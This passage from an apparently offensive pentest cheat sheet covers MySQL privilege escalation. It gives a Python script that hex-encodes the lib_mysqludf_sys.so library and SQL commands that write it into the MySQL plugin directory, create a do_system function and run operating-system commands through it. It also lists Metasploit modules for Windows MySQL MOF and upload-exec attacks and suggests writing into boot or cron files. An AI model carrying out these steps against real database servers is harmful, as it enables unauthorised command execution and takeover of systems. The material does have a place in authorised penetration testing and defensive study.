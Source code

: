 ```

import sys
import binascii


def convert(filename):
    with open(filename) as f:
        print(binascii.hexlify(f.read()))


if __name__ == '__main__':
    if len(sys.argv) != 2:
        print("python {} /path/to/lib_mysqludf_sys.so".format(sys.argv[0]))
    else:
        convert(sys.argv[1])
```

Please try to upload so file, and Using MySQL User Defined Functions called **do_system**.

```
mysql > select @@plugin_dir;
mysql > SELECT 0x7f45........0000 INTO DUMPFILE '/usr/lib/mysql/plugin/lib_mysqludf_sys.so'
mysql > drop function if exists do_system
mysql > create function do_system returns integer soname 'lib_mysqludf_sys.so';
mysql > select do_system('id > /tmp/result.log');
mysql > select load_file('/tmp/result.log');
```

## Mof Privilege Escalation

If mysql is on windows, please try:

```
msf >
use exploit/windows/mysql/mysql_mof
use exploit/windows/mysql/mysql_start_up
use exploit/windows/mysql/scrutinizer_upload_exec
use exploit/windows/mysql/mysql_payload
use exploit/windows/mysql/mysql_yassl_hello
```

If enough privilege, you can also write data into os files (boot, cron, and so on).

# Links

1. http://www.mysqltutorial.org/mysql-cheat-sheet.aspx
2. http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
3. https://www.rapid7.com/db/modules/exploit/windows/mysql/mysql_mof
4. http://legalhackers.com/advisories/MySQL-Maria-Percona-RootPrivEsc-CVE-2016-6664-5617-Exploit.html

